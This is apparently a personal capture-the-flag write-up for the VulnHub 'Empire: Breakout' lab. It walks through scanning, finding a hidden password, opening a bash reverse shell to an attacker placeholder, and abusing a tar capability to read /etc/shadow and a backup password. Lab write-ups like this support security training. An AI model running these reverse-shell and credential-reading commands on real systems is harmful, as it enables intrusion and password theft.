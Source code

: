 ```yaml
---
layout: page
title: "Empire: Breakout CTF"
parent: VulnHub
grand_parent: Practice Labs
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
Box Link: https://www.vulnhub.com/entry/empire-breakout,751/

Difficulty: Easy

## Recon
- Requires a username & password
- No feedback given upon failure

## Scanning
IP: eth0: 192.168.68.109

What services are running on the target?
`nmap -sCV -v -oN tcp 192.168.68.109`
- Scan for service versions & default scripts, with verbose, output to file `tcp`

| Port      | Service                 | Version | Description                                                                                  |
| --------- | ----------------------- | ------- | -------------------------------------------------------------------------------------------- |
| 80/tcp    | Apache httpd            | 2.4.51  | Apache web server                                                                            |
| 139/tcp   | netbios-ssn samba smbd  | 4.6.2   | smbd is the server daemon that provides filesharing and printing services to Windows clients |
| 445/tcp   | netbios-ssn samba smbd  | 4.6.2   | smbd is the server daemon that provides filesharing and printing services to Windows clients |
| 10000/tcp | MiniServ (Webmin httpd) | 1.981   | Web-based admin system                                                                       |
| 20000/tcp | MiniServ (Webmin httpd)                | 1.830   | Web-based admin system                                                                       |

Running an `smbmap -H 192.168.68.109` checked for all the disks hosted:
{% highlight shell %}
[+] IP: 192.168.68.109:10000	Name: 192.168.68.109                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.5-Debian)
{% endhighlight %}

Running `gobuster` on the site also identified the `/server-status` which resulted in a 403 (Forbidden).

https://192.168.68.109:10000/ is running a **Webmin** login

https://192.168.68.109:20000/ is running a **Usermin** login

Hidden at the bottom of the page-source for the default page is:
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```
This is written in brain fuck, when run it decrypts a password: `.2uqPEfj3D<P'a-3`

Running `enum4linux -a 192.168.68.109` which scans for smb information, identified a user:
`S-1-22-1-1000 Unix User\cyber (Local User)`

Attempting to log into `Usermin` *(port 20000)* with:
- Username: `cyber`
- Password: `.2uqPEfj3D<P'a-3`

Results in success

## Exploitation

After logging into the user account, noticed there was a command terminal.

Ran `bash -i >& /dev/tcp/PARROT_IP/4444 0>&1` on the target to open a reverse shell.
Then using netcat `nc -lvp 4444` on the parrot machine I have connected as cyber.

Gaining some information on the target system:
`cat /proc/version || uname -a`
```
Linux version 5.10.0-9-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.70-1 (2021-09-30)
```

`lsb_release -a`
```
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 11 (bullseye)
Release:	11
Codename:	bullseye
```

`cat /etc/os-release`
```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

We can see they are running Debian Bullseye version 11.

Now we want to gain root access: Privilege escalation.
Exploring an interesting article for PE using getcap https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/?source=post_page-----dc3170d7748f--------------------------------

When we run `getcap -r / 2>/dev/null` we can see some interesting permissions on the ./tar binary. `cap_dac_read_search` can be seen on the binary.

**CAP_DAC_READ_SEARCH** [Source](https://linux.die.net/man/7/capabilities)
- Bypass file read permission checks and directory read and execute permission checks.

This means we can archive files or directories we don't have permission to access then extract them to view their contents.

Targeting the `/etc/shadow` file we can get all the password hashes for the different accounts on the system.

`tar -cvf shadow.tar /etc/shadow` to archive the dir
`tar -xvf shadow.tar` to extract it

{% highlight shell %}
$ cat shadow
root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:9
...
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:
{% endhighlight %}

Above would have forced me to crack the hash, so we check the `/var/backups/.old_pass.bak` using the same method, and we find an old password:
`Ts&4&YurgtRX(=~h`

`cat /root/rOOt.txt` reveals the final flag: `3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}`